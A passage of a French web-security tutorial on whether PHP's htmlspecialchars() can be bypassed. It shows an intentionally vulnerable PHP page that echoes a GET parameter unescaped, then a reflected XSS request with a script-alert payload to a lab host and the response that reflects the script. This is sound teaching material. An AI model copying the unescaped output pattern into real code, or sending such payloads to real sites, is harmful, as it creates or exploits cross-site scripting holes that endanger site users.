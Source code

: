 ```yaml
---
description: 29 Juillet 2022
---
```


# Est-il possible de contourner la fonction PHP htmlspecialchars() ?

## La fonction htmlspecialchars()

Avant d'analyser la méthode `htmlspecialchars()`, voici le code d'une injection simple au sein d'une page HTML : &#x20;

```php
<!DOCTYPE html>
<html lang="fr">
  <head>
    <title>Une injection simple</title>
  </head>
  <body>
     <p><?php echo 'Une injection simple : ' . $_GET['param']; ?></p>
  </body>
</html>
```

La requête HTTP exploitant la vulnérabilité est la suivante :&#x20;

```http
GET /minipoc/htmlspecialchars/?param=%3Cscript%3Ealert(1)%3C/script%3E HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
```

Et voici la réponse HTTP associée :&#x20;

```html
HTTP/1.1 200 OK
Server: Apache/2.4.38 (Debian)
Connection: close
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html lang="fr">
  <head>
    <title>Une injection simple</title>
  </head>
  <body>
     <p>Une injection simple : <script>alert(1)</script></p>
  </body>
</html>
```

